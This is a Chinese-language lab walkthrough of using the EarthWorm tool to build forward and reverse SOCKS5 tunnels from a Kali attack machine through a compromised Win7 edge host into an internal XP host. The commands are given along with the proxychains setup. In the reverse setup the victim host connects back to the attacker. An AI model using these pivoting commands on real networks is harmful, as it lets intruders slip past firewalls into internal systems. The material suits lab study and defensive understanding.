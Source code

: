 
# 环境准备
攻击机：<br />kali：192.168.1.28<br />![image-20210913152247891.png](./assets/1655878728663-625070f2-7c06-40e7-9cee-4f5f5633c92c.png)

内网边缘机器：<br />Win7：192.168.1.8   10.10.10.2<br />![image-20210913144106204.png](./assets/1655878733735-4c2fae46-3190-4ad3-9449-30eebcf29b6b.png)

内网机器：<br />win XP：10.10.10.3<br />![image-20210913144131732.png](./assets/1655878741408-6c22f122-9869-435a-9787-811035c5b0a0.png)


# EW
下载地址：[http://rootkiter.com/EarthWorm/](http://rootkiter.com/EarthWorm/)

**EarthWorm**是一款用于开启 SOCKS v5 代理服务的工具，基于标准 C 开发，可提供多平台间的转接通讯，用于复杂网络环境下的数据转发。该工具能够以“正向”、“反向”、“多级级联”等方式打通一条网络隧道，直达网络深处，用蚯蚓独有的手段突破网络限制，给防火墙松土。

目前工具提供六种链路状态，可通过 -s 参数进行选定
```
ssocksd       //正向代理
rssocks       //反向代理
lcx_slave    //该管道一侧通过反弹方式连接代理请求方，另一侧连接代理提供主机。
lcx_tran     //该管道，通过监听本地端口接收代理请求，并转交给代理提供主机。
lcx_listen   //该管道，通过监听本地端口接收数据，并将其转交给目标网络回连的代理提供主机。
```


## EW正向代理
1、在内网边缘主机上运行
```
ew_for_win.exe -s ssocksd -l 1090
```
![image-20210914144658794.png](./assets/1655878758651-fa8b980a-2b8b-40e5-b3a7-43a79e84615c.png)

2、配置代理<br />在攻击机配置proxychains代理链的配置文件vim /etc/proxychains4.conf，将代理设置成本机的1090端口：socks5 192.168.1.8 1090
```
vim etc/proxychains4.conf
```

配置浏览器代理<br />![image-20210914145308369.png](./assets/1655878767562-fabbb863-bba7-4301-a123-e9a1f69d23bf.png)

3、访问测试<br />![image-20210914145319879.png](./assets/1655878774448-9b1658eb-3da9-4dcc-8557-cc6678e60bbb.png)

![image-20210914145403665.png](./assets/1655878778970-bafbde5b-5bcf-491d-ba08-025395ee2f81.png)


## EW反向代理
1、在攻击机执行
```
./ew_for_linux64 -s rcsocks -l 1080 -e 1024
```
![image-20210914145620311.png](./assets/1655878785838-0cd8288e-a568-4ecf-8c87-ac05779802b3.png)

2、在内网边缘机器执行
```
ew_for_win.exe -s rssocks -d 192.168.1.28 -e 1024
```
![image-20210914145856492.png](./assets/1655878790512-d9b09047-bc23-40b5-83f8-660c47971c60.png)

连接成功<br />![image-20210914150002994.png](./assets/1655878794522-77620afb-6afa-45a9-8df4-46d46dfa85f0.png)

3、配置代理<br />在攻击机配置proxychains代理链的配置文件vim /etc/proxychains4.conf，将代理设置成本机的1090端口：socks5 127.0.0.1 1080<br />![image-20210914150112165.png](./assets/1655878798931-e75526e0-292a-465c-ba17-3a8af9af19bf.png)

在浏览器配置代理<br />![image-20210914150331273.png](./assets/1655878803215-57977280-e007-43a5-9950-9017549f143b.png)

4、访问测试<br />![image-20210914150340106.png](./assets/1655878806712-ce0195bd-9763-4b69-a2b7-005e5c0669e7.png)

![image-20210914150414868.png](./assets/1655878813266-67832367-0431-485b-b6bc-4350e1dba8b6.png)
